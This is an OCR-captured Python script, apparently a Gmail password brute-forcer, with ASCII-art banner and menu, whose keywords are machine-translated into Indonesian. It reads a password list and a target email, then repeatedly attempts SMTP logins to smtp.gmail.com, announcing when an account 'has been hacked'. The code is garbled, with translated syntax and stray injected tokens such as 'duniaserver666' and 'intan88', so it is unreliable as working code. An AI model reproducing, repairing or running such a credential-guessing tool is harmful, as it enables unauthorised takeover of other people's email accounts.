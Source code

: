 impor  smtplib
dari  sistem impor os  

def  utama ():
   print  '================================================ ='
   print  ' buat oleh Ha3MrX '
   print  '================================================ ='
   print  '++++++++++++++++++++++'
   cetak  ' \n                                                '
   cetak  ' _,. '
   cetak  ''
   cetak  ''
   cetak  'badrun86551'
   cetak  ' _,. '
   cetak  ' ,` -.) '
   cetak  ' ( _/- \\ -._ '
   cetak  ' /,|`--._,-^| , '
   cetak  ' \_| |`-._/|| , | '
   cetak  ' | `-, / | // '
   cetak  ' | || | // '
   cetak  ' `r-._||/ __ / / '
   cetak  ' __,-<_ )`-/ `./ / '
   cetak  ' \ `--- \ / / / '
   cetak  ' | |./ / '
   cetak  ' / // / '
   cetak  ' \_/ \ |/ / '
   cetak  ' | | _,^- / / '
   cetak  ' | , `` (\/ /_ '
   print  ' \,.->._ \X-=/^ '
   cetak  ' ( / `-._//^` '
   print  ' `Y-.____(__} '
   cetak  ' | __) ' 
   cetak  ' () V.1.0 '

utama ()
cetak  '[1] mulai serangan'
cetak  '[2] keluar'
pilihan  =  masukan ( '==>' )
jika  opsi  ==  1 :
   file_path  =  raw_input ( 'path file password :' )
lain :
   sistem ( 'jelas' )
   keluar ()
pass_file  =  buka ( file_path , 'r' )
pass_list  =  pass_file . garis baca ()
def  masuk ():
    saya  =  0
    user_name  =  raw_input ( 'target email :' )
    server  =  smtplib . SMTP_SSL ( 'smtp.gmail.com' , 465 )
    server . halo ()
    untuk  kata sandi  di  pass_list :
      saya  =  saya  +  1
      print  str ( i ) +  '/'  +  str ( len ( pass_list ))
      coba :
         server . login ( server , duniaserver666 )
         sistem ( 'jelas' )
         utama ()
         cetak  ' \n '
         print  '[+] Akun Ini Telah Diretas Kata Sandi :'  +  kata sandi  +  intan88
         istirahat
      kecuali  smtplib . SMTPAuthenticationError  sebagai  e :
         kesalahan  =  str ( e )
         jika  kesalahan [ 14 ] ==  '<' :
            sistem ( 'jelas' )
            utama ()
            print  '[+] akun ini telah diretas, kata sandi :'  +  kata sandi  +  ' ^_^'

            istirahat
         lain :
            print  '[!] kata sandi tidak ditemukan => '  +  kata sandi
masuk ()
